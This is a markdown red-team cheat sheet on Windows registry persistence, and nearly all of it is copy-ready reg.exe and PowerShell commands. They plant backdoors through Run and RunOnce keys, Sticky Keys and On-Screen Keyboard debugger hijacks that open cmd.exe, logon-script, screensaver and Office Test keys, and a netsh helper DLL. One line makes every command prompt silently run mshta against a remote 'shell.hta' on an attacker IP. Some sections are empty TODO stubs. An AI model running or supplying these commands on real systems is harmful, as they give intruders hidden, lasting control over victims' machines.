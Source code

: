 # Registry Keys

## 01 - Manual

### 1.1 - Registry Key Values

#### 1.1.1 - Registry key values both command prompt and powershell

|reg.exe|Set-ItemProperty|DataType in .reg|
|-------|----------------|----------------|
|REG_SZ|String||
|REG_EXPAND_SZ|ExpandString|hexadecimal(2)|
|REG_DWORD|DWord|dword|
|REG_QWORD|QWord|qword|
|REG_MULTI_SZ|MultiString|hexadecimal(7)|
|REG_BINARY|Binary|hexadecimal|

```
C:\> reg import file.reg

C:\> reg add "hklm\software\microsoft\windows\currentversion\run" /v <value> /t reg_sz /d "C:\path\to\shell.exe" /f
```

```powershell
PS C:\> set-itemproperty -path "hklm:\software\microsoft\windows\currentversion\run" -name "<value>" -propertytype string -value "C:\path\to\shell.exe" -force
```

### 1.2 - Registry Backdoors

#### 1.2.1 - HKLM

##### 1.2.1.1 - Syntax

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\run" /v <value> /t reg_sz /d "rundll32.exe C:\path\to\shell.dll,ExecDLL" /f`

##### 1.2.1.2 - Registry Paths

```
C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce" /v UpdateOnce /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices" /v WindowsService /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v UpdateSVC /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v Dependency /t REG_SZ /d "C:\path\to\shell.dll"
```

##### 1.2.1.3 - Image File Execution Options

- Sticky Keys

```
C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

- Accessibility On-Screen Keyboard

```
C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

- Notepad

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\notepad" /v Debugger /d "C:\path\to\shell.exe"`

##### 1.2.1.4 - COM Hijacking

TODO: Fill this info

#### 1.2.2 - HKCU

##### 1.2.2.1 - Registry Paths

```
C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Image /t REG_SZ /d "powershell.exe -ep bypass -w hidden -nologo -NonI -f C:\path\to\shell.ps1" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce" WindowsUpdate /t REG_SZ /d "rundll32.exe C:\path\to\shell.dll,ExecuteShell" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\SOFTWARE\Microsoft\Command Processor" /v AutoRun /t REG_SZ /d "powershell.exe Start-Process -windowstyle hidden -FilePath mshta.exe http://<IP>/shell.hta" /f
```

##### 1.2.2.2 - LogonScript

`C:\> reg add "HKCU\Environment" /v UserInitMprLogonScript /d "C:\path\to\shell.bat" /t REG_SZ /f`

##### 1.2.2.3 - Screen Saver

```
C:\> reg add "HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

##### 1.2.2.4 - Microsoft Office

`C:\> reg add "HKCU\SOFTWARE\Microsoft\Office Test\Special\Perf" /t REG_SZ /d "C:\path\to\shell.dll" /f`

##### 1.2.2.5 - COM Hijacking

TODO: Fill this info

#### 1.2.3 - Netsh Backdoor

```
C:\> reg add "hklm\software\microsoft\windows\currentversion\run" /v "Firewall Rules Persist" /t reg_sz /d "C:\Windows\System32\netsh" /f

C:\> netsh add helper C:\path\to\shellDLL.dll

C:\> netsh

netsh> add helper C:\path\to\shellDLL.dll
```

- To cleanup the backdoor

```
C:\> netsh delete helper C:\path\to\shell.dll

C:\> netsh

netsh> delete helper C:\path\to\shell.dll

C:\> reg delete "HKLM\SOFTWARE\Microsoft\NetSh" /v shellDLL /f
```

## 02 - SharPersist

TODO: Fill this info

---
## References

- [Mandiant: SharPersist Windows Persistence Toolkit](https://www.mandiant.com/resources/sharpersist-windows-persistence-toolkit)

- [Zweilosec: Windows RedTeam Persistence](https://zweilosec.gitbook.io/hackers-rest/windows-1/windows-redteam/persistence)

- [Persistence Info](https://persistence-info.github.io/)